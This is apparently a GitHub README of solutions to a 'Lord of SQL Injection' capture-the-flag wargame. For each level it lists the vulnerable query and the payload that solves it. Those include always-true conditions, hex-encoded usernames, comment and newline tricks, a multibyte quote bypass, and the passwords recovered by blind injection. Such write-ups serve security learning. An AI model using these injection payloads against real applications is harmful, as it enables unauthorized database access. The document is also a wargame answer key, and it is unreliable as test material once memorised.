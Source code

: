# Lord-of-Sql-injection

gremlin

prob : select id from prob_gremlin where id='' and pw=''

solve : ?id=' or 1=1%23


cobolt

prob : select id from prob_cobolt where id='' and pw=md5('')

solve : ?id=' or id='admin'%23


goblin

prob : select id from prob_goblin where id='guest' and no=

solve : ?no=' or id=0x61646d696e


orc(blind)

prob : select id from prob_orc where id='admin' and pw=''

solve : ?pw=095a9852


wolfman

prob : select id from prob_wolfman where id='guest' and pw=''

solve : ?pw=%27||id=0x61646d696e%23


darkelf

prob : select id from prob_darkelf where id='guest' and pw=''

solve : ?pw=%27||id=0x61646d696e%23


orge(blind)

prob : select id from prob_orge where id='guest' and pw=''

solve : ?pw=7b751aec


troll

prob : select id from prob_troll where id='ADmin'

solve : ?pw=AdMin


vampire

prob : select id from prob_vampire where id=''

solve : ?id=adadminmin


skeleton

prob : select id from prob_skeleton where id='guest' and pw='' and 1=0

solve : ?pw=' or id='admin'%23


golem(blind)

prob : select id from prob_golem where id='guest' and pw=''

solve : ?pw=77d6290b


darknight(blind)

prob : select id from prob_darkknight where id='guest' and pw='' and no=

solve : ?pw=0b70ea1f


bugbear(blind)

prob : select id from prob_bugbear where id='guest' and pw='' and no=

solve : ?pw=52dc3991


giant

prob : select 1234 from{$_GET[shit]}prob_giant where 1

solve : ?shit=%0b,?shit=%0c


assasin 

prob : select id from prob_assassin where pw like ''

solve : ?pw=%E%D%

memo : a% , %a , %a%


zombie_assassin

prob : select id from prob_zombie_assassin where id='' and pw=''

solve : pass

memo : %bf' or 1=1--%20 -> %20--1=1 ro '%bf


succubus(pass)

nightmare(pass)


xavis(blind)

prob : select id from prob_xavis where id='admin' and pw=''

solve : ?pw=우왕굳

memo : 한글 ascii


dragon

prob : select id from prob_dragon where id='guest'# and pw=''

solve : ?pw='%0aand pw=12311312312312 or id='admin

memo : %0a -> 줄바꿈  # -> 한줄 주석


iron_golem(error based blind)

prob : select id from prob_iron_golem where id='admin' and pw=''

solve : ?pw=06b5a6c16e8830475f983cc3a825ee9a


dark_eyes(error based blind)

prob : select id from prob_dark_eyes where id='admin' and pw=''

solve : ?pw=5a2f5d3c


hell_fire(error based blind)

prob : select id,email,score from prob_hell_fire where 1 order by

solve : ?pw=admin_secure_email@emai1.com
